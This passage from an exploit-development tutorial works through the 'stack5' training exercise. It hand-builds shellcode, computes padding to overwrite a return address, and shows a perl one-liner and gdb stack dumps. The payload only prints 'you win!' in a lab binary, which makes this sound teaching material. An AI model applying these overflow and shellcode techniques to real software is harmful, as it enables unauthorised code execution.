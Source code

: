 We need 9 bytes to hold our string, 8 for the characters "you win!" plus a null byte to terminate it. Without the null byte, the puts function won't know when to stop printing characters. In hex, this looks like `79 6f 75 20 77 69 6e 21 00`.

We can now put all these pieces together to inject our own code into the stack5 program. Our buffer will have the following structure:

![Buffer](/assets/images/exdev/stack5/buffer.jpg)

Checking the stack again to get the required memory addresses:
```c
gdb-peda$ x/32xw $rsp
0x7fffffffde60:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde70:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde80:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde90:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdea0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdeb0:	0x41414141	0x41414141	0x41414141	0x42424242
0x7fffffffdec0:	0x43434343	0x43434343	0x44444444	0x44444444
0x7fffffffded0:	0x00000000	0x00000000	0xffffdfa8	0x00007fff
gdb-peda$
```

The buffer starts at `0x7fffffffde60`. Putting our string after the return address means it will start at address `0x7fffffffded0`. The opcodes for `mov $rdi, 0x7fffffffded0` and `mov $rbx, 0x555555555030` will both take up 10 bytes. The opcode `call $rbx` is 2 bytes, and the return address is 8 bytes for a total of 30. This means we'll need a total of 82 bytes (112-30) of padding to overflow the return address.


## Exploitation

Putting all the pieces together, our shellcode will look as follows:

| mov $rdi, string addr | move $rbx, puts addr | call $rbx | overflow padding | return addr | "you win!" |
|--------|-------------|--------------------------|---|---|---|
| \x48\xbf\xbf\xde\xff\xff\xff\x7f\x00\x00 | \x48\xbb\x30\x50\x55\x55\x55\x55\x00\x00 | \xff\xd3 | \x41 * 82 | \x60\xde\xff\xff\xff\x7f\x00\x00 | \x79\x6f\x75\x20\x77\x69\x6e\x21\x00 |

We can use perl to print this into a file, and use that as the input to our program running in gdb. Note the new line character added at the very end to terminate our input:

```bash
gr0ked (master) bin $ perl -e 'print "\x48\xbf\xd0\xde\xff\xff\xff\x7f\x00\x00" . "\x48\xbb\x30\x50\x55\x55\x55\x55\x00\x00" . "\xff\xd3" . "A"x82 . "\x60\xde\xff\xff\xff\x7f\x00\x00" . "\x79\x6f\x75\x20\x77\x69\x6e\x21\x00" . "\n"' > exploit
```

Running it in gdb, we can look at the stack again:

<div class="code-container">
{% highlight c linenos %}
gdb-peda$ run < exploit
Starting program: /home/vagrant/InsecureProgramming/bin/stack5 < exploit
buf: ffffde60 cookie: ffffdebc
Breakpoint 2, 0x00005555555551a0 in main () at ./exercises/stack5.c:14
14	        printf("you lose!\n");
gdb-peda$ x/32xw $rsp
0x7fffffffde60:	0xded0bf48	0x7fffffff	0xbb480000	0x55555030
0x7fffffffde70:	0x00005555	0x4141d3ff	0x41414141	0x41414141
0x7fffffffde80:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffde90:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdea0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdeb0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffdec0:	0x41414141	0x41414141	0xffffde60	0x00007fff